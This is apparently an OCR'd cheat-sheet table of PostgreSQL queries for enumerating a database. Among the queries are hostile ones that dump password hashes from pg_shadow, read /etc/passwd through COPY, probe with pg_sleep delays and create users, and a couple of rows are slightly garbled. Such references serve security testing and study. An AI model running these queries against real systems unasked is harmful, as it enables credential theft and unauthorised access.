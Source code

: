 | Query                                                           | Description                           |
| --------------------------------------------------------------- | ------------------------------------- |
| `SELECT version();`                                              | Get PostgreSQL version                |
| `--comment | / comment /`                                        | Comments in PostgreSQL                |
| `SELECT user;`                                                   | Get current user                      |
| `SELECT current_user;`                                           | Get current user (alternative)        |
| `SELECT session_user;`                                           | Get session user                      |
| `SELECT usename FROM pg_user;`                                    | List PostgreSQL users                 |
| `SELECT usename FROM pg_user WHERE usesuper IS TRUE;`             | List DBA accounts (superuser)         |
| `SELECT usename, passwd FROM pg_shadow;`                          | List password hashes                 |
| `SELECT current_database();`                                      | Get current database                  |
| `SELECT datname FROM pg_database;`                                | List databases                        |
| `SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r') AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid);` | List tables                          |
| `SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public');` | List columns                         |
| `SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') AND attname LIKE '%password%';` | Find tables with 'password' column   |
| `SELECT pg_sleep(10);`                                           | Time delay function (PostgreSQL)      |
| `CREATE TABLE mydata(t text); COPY mydata FROM '/etc/passwd';`   | Local file access (UNIX)              |
| `SELECT inet_server_addr();`                                      | Get hostname/IP address               |
| `SELECT inet_server_port();`                                      | Get port number                       |
| `CREATE USER test1 PASSWORD 'pass1'; CREATEUSER`                  | Create a new PostgreSQL user          |
| `DROP USER test1;`                                                | Delete a PostgreSQL user              |
| `SELECT current_setting('data_directory');`                       | Location of PostgreSQL data directory |
